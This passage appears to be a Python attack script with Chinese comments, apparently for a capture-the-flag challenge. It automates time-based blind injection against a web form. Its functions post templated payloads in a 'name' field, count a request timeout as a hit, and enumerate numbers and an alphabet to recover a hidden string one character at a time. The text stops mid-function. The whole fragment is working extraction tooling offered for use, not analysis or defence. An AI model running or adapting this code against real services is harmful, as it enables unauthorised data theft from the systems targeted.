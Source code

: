 ```python
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替整数
    """
    for i in range(L, R):
        url = URL
        data = {"name": payload.format(i)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Number {i} missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if log_result:
                print(f"The matched number is {i}!")
            return i
    return None


def test_char(payload, index=-1, log=False, log_result=False):
    """枚举字母表直到匹配成功
    
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替字符
    """
    for char in ALPHABET:
        url = URL
        if index == -1:
            data = {"name": payload.format(char)}
        else:
            data = {"name": payload.format(index, char)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Charactor '{char}' missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if char == '?':
                continue
            if log_result:
                print(f"Matched '{char}'!")
            return char
    return None


def loop_str(L, R, payload, log=False, log_result=False):
    """逐字查找字符搜寻字符串
    
    Args:
        payload (str): 接受两个 Format 位的字符串，第一个`{}`代替为整型，第二个`{}`代替为字符
    """
    result = ""
    for i in range(L, R):
        if log:
            print(f"Testing index {i}...")
        char = test_char(payload, index=i, log=log, log_result=False)
        if char != None:
            result += char
            if log:
                print(f"Matched '{char}' at the index {i}!")
                print(f'- Current result: "{result}"')
    if log_result:
```